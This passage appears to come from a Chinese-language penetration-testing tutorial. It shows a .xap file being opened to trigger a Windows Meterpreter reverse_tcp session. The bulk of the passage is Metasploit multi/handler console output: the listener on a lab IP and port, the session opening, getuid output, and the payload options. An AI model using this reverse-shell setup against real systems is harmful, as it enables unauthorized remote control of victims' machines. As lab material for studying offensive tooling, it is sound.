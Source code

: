 创建一个`.xap`文件：

```
touch .xap
```

打开`.xap`文件，获得会话：

![0x03](https://images.payloads.online/2876a808-4f5f-11ec-8a46-00d861bf4abb.png)

```sh
msf exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  2   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://192.168.137.79:4444

msf exploit(multi/handler) >
[*] Sending stage (179779 bytes) to 192.168.137.71
[*] Meterpreter session 2 opened (192.168.137.79:4444 -> 192.168.137.71:49236) at 2018-08-15 18:31:59 +0800

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: John-Thunderobt\John
meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.137.79   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) >
```
